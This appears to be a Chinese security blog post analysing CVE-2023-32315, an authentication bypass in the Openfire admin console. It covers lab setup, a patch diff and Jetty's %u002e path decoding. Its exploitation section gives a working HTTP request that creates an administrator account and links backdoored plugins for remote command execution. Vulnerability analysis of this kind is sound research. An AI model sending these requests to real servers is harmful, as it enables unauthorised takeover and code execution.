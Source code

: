 title: CVE-2023-32315 Openfire 身份认证绕过漏洞
author: bmth
tags:
  - CVE-2023-32315
categories:
  - 漏洞分析
top_img: 'https://img-blog.csdnimg.cn/2f8b15f21ee34548b59e536c05080cd5.png'
cover: 'https://img-blog.csdnimg.cn/2f8b15f21ee34548b59e536c05080cd5.png'
date: 2023-06-19 16:59:00
---
![](https://img-blog.csdnimg.cn/2f8b15f21ee34548b59e536c05080cd5.png)

Openfire是免费的、开源的、基于可拓展通讯和表示协议(XMPP)、采用Java编程语言开发的实时协作服务器

Openfire的管理控制台是一个基于 Web 的应用程序，被发现可以使用路径遍历的方式绕过权限校验。成功利用后，未经身份验证的用户可以访问 Openfire 管理控制台中的后台页面。同时由于Openfire管理控制台的后台提供了安装插件的功能，所以攻击者可以通过安装恶意插件达成远程代码执行的效果

官方通告：[https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm](https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm)

影响版本：
- 3.10.0 <= Openfire < 4.6.8
- 4.7.0 <= Openfire < 4.7.5


## 环境搭建
直接下载 openfire 4.7.4：[https://github.com/igniterealtime/Openfire/releases/download/v4.7.4/openfire_4_7_4.tar.gz](https://github.com/igniterealtime/Openfire/releases/download/v4.7.4/openfire_4_7_4.tar.gz)

然后解压，通过`bin/openfire start`启动openfire
在`logs/stdoutt.log`中可以看到管理平台端口是9090
![](https://img-blog.csdnimg.cn/12eea9e248f24d5ea81abc0b7829314a.png)

接下来进行安装，默认设置即可，可以选择自带的数据库
![](https://img-blog.csdnimg.cn/0ada2a93646e459f9979b276542599b9.png)

然后设置管理员账号密码
![](https://img-blog.csdnimg.cn/1af7fab09e58481fb82c82d7c8069da5.png)

安装成功后直接显示了当前版本
## 漏洞分析
对比最新版本和漏洞版本的代码区别：[https://github.com/igniterealtime/Openfire/compare/v4.7.4...4.7](https://github.com/igniterealtime/Openfire/compare/v4.7.4...4.7)

看到`xmppserver/src/main/webapp/WEB-INF/web.xml`
![](https://img-blog.csdnimg.cn/fa68de34f87549f596630cd4c5c1e3a5.png)

删除了`setup/index.jsp`、`setup/setup-*`两个路径，其实这个 AuthCheckFilter 就是它的一个鉴权机制，如果满足这些路径就可以跳过鉴权

`xmppserver/src/main/java/org/jivesoftware/admin/AuthCheckFilter.java`
![](https://img-blog.csdnimg.cn/a8079f571ab543dd8c6a1c47b1c77772.png)

在漏洞版本中，如果满足`exclude.endsWith("*")`，同时url不包含`..`或者`%2e`，那么就返回true
而在修复版本中进行了URLDecoder，然后再判断是否存在`..`
![](https://img-blog.csdnimg.cn/0f01d086aa98485ba465a32ff2d00f0f.png)

看到这里如果返回为true的话，doExclude就会为true，绕过鉴权

在CVE-2021-34429中，Jetty 就有过使用`%u002e`进行绕过，在Jetty9.4.37版本中，为了符合RFC3986中的规范，选择性地支持可能有歧义解释的URI，默认模式允许URL编码，这也导致我们可以使用UTF-16字符来绕过路径穿越的防护
![](https://img-blog.csdnimg.cn/5935097a08b2460a9914e5c033e9cb11.png)

Openfire默认下载的版本为jetty/9.4.43

看到`org.eclipse.jetty.http.HttpURI#parse`
![](https://img-blog.csdnimg.cn/5f0d319484c048beaffdb4dddf69dbc3.png)

先调用`URIUtil.decodePath`进行URL解码，然后调用`URIUtil.canonicalPath`进行规范化，即：
```
/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
-> /setup/setup-s/../../log.jsp
-> /log.jsp
```
![](https://img-blog.csdnimg.cn/d1f82863eb3f4603901de64361232cc8.png)

成功绕过鉴权

## 漏洞利用
我们利用该漏洞创建一个新的管理员：
```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```
虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为hackme
![](https://img-blog.csdnimg.cn/8d33c45ff329460d8af1fd0a95adee2e.png)

成功利用hackme登录后，我们可以安装插件实现rce，插件地址：[https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass/releases/download/v0.1/org.jivesoftware.openfire.plugin.CVE-openfire-plugin-assembly.jar](https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass/releases/download/v0.1/org.jivesoftware.openfire.plugin.CVE-openfire-plugin-assembly.jar)
![](https://img-blog.csdnimg.cn/ede9114e8f114b84b3de6fb668b19313.png)

使用默认密码123登录，成功执行命令
![](https://img-blog.csdnimg.cn/a398d506b2c54e62890e6b7b9d0d850a.png)

也可以使用p神给的插件：[https://github.com/vulhub/openfire-fastpath-plugin](https://github.com/vulhub/openfire-fastpath-plugin)，里面存在后门
![](https://img-blog.csdnimg.cn/ab8a3861f76c4dbeb207a0b3db6c96f4.png)

参考：
[https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md)
[Eclipse Jetty WEB-INF敏感信息泄露漏洞分析（CVE-2021-28164/CVE-2021-34429）](https://xz.aliyun.com/t/10039)
